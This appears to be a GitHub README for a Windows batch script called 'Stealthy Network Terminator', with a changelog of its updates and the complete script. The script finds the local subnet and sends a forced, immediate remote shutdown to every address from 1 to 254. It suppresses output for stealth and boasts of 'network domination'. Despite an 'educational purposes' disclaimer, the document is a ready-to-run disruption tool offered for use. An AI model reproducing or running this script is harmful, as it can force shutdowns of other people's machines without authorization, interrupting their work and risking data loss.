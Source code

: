 

# Stealthy Network Terminator - Updated Version

This document outlines the updates and enhancements made to the Stealthy Network Terminator (SNT) script, improving its functionality, robustness, and clarity.

## Updates and Enhancements

1. **Log File Setup:**
   - A log file is created to record all activities performed by the script. This includes successes, failures, and other important events, aiding in auditing and troubleshooting.

2. **Space Removal from IP Address:**
   - Spaces are removed from the local IP address string to ensure proper formatting and functionality.

3. **Improved IP Address Retrieval:**
   - The command for retrieving the local IP address is updated to include the `/i` switch for case-insensitive matching, ensuring compatibility with different systems.

4. **Enhanced Error Handling:**
   - Additional checks are implemented to handle cases where the local IP address or network range cannot be retrieved, providing clear error messages and aborting the script if necessary.

5. **Summary Display:**
   - A summary section at the end of the script displays the total number of successful and failed shutdown attempts. This provides a quick overview of the script's impact on the network.

6. **Success and Error Counters:**
   - Separate counters (`success_count` and `error_count`) are used to track the number of successful and failed shutdown commands, respectively.

7. **Detailed Comments:**
   - Additional comments are included throughout the script to explain the purpose and functionality of each section, making it easier to understand and maintain.

8. **Stealth and Efficiency:**
   - The script includes messages indicating when it is entering and exiting stealth mode, enhancing its narrative style and making it clear when the script is actively performing operations.

9. **Removed Null Redirects from Comments:**
   - Log entries are now directly written to the log file, and console output is redirected to `nul` for shutdown commands to maintain stealth.

## Script Breakdown

```batch
@echo off
setlocal enabledelayedexpansion

REM Stealthy Network Terminator - Developed by FLUFFY

REM This script is for educational purposes only. Misuse for malicious intent is illegal.

REM FLUFFY presents the Stealthy Network Terminator (SNT), a potent tool for hacking enthusiasts.
REM It silently infiltrates your local network, wreaking havoc with a single click.

REM WARNING: Use this tool responsibly and only on networks you own or have explicit permission to test.

REM Get ready to unleash chaos! Initiating SNT...

REM Log file setup
set "logfile=%~dp0SNT_log.txt"
echo SNT Execution Log - %date% %time% > "%logfile%"
echo ======================================== >> "%logfile%"

REM Get local IP address
for /f "tokens=2 delims=:" %%i in ('ipconfig ^| findstr /i "IPv4"') do (
    set "local_ip=%%i"
)
set "local_ip=%local_ip: =%" REM Remove spaces

if "%local_ip%"=="" (
    echo Failed to retrieve local IP address. Aborting operation. >> "%logfile%"
    echo Failed to retrieve local IP address. Aborting operation.
    exit /b 1
)

echo Local IP Address: %local_ip% >> "%logfile%"

REM Extract network range
for /f "tokens=1,2,3 delims=." %%a in ("%local_ip%") do (
    set "network_range=%%a.%%b.%%c."
)

if "%network_range%"=="" (
    echo Failed to extract network range. Aborting operation. >> "%logfile%"
    echo Failed to extract network range. Aborting operation.
    exit /b 1
)

echo Network Range: %network_range%0 >> "%logfile%"

REM Initiating shutdown sequence for all devices in the network range
echo Stealth mode activated... Engaging the SNT... >> "%logfile%"
echo Stealth mode activated... Engaging the SNT...
set "error_count=0"
set "success_count=0"

for /L %%i in (1,1,254) do (
    set "ip=%network_range%%%i"
    shutdown /s /f /t 0 /m \\!ip! >nul 2>&1
    if errorlevel 1 (
        echo Failed to send shutdown command to !ip!... Evading detection. >> "%logfile%"
        set /a "error_count+=1"
    ) else (
        echo Shutdown command sent to !ip!... Target neutralized. >> "%logfile%"
        set /a "success_count+=1"
    )
)

REM Display summary
echo. >> "%logfile%"
echo Summary: >> "%logfile%"
echo ===================== >> "%logfile%"

if %error_count% gtr 0 (
    echo %error_count% devices failed to shut down... Potential resistance detected. >> "%logfile%"
    echo %error_count% devices failed to shut down... Potential resistance detected.
) else (
    echo All devices in the network range have received shutdown command... Network domination achieved! >> "%logfile%"
    echo All devices in the network range have received shutdown command... Network domination achieved!
)

echo %success_count% devices were successfully shut down. >> "%logfile%"
echo Terminating SNT... Exit stealth mode and return to the shadows. >> "%logfile%"
echo Terminating SNT... Exit stealth mode and return to the shadows.

pause
```

These improvements make the script more robust, informative, and easier to follow, while maintaining its functionality.
